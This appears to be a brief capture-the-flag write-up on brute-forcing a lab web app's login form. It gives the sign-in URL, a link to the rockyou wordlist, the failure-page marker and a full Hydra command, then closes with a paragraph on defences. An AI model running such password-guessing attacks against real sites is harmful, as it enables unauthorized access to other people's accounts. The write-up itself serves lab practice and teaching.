 # BRUTEFORCE

```
http://{IP_ADDRESS}/index.php?page=signin&username=admin&password=1234&Login=Login#
```

### PASSWORD LIST

```https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt```
 

```html
<img src="images/WrongAnswer.gif" alt="">
```

### HYDRA

```hydra -l admin -P rockyou.txt {IP_ADRESS} http-get-form '/:page=signin&username=^USER^&password=^PASS^&Login=Login:gif'```


A brute-force attack is a method used to gain unauthorized access by systematically trying all possible combinations of passwords or keys until the correct one is found. This approach is simple but can be time-consuming, especially if strong, complex passwords are used. Brute-force attacks often utilize automated tools and wordlists to speed up the process. Implementing strong password policies, rate limiting, and multi-factor authentication are effective ways to defend against such attacks.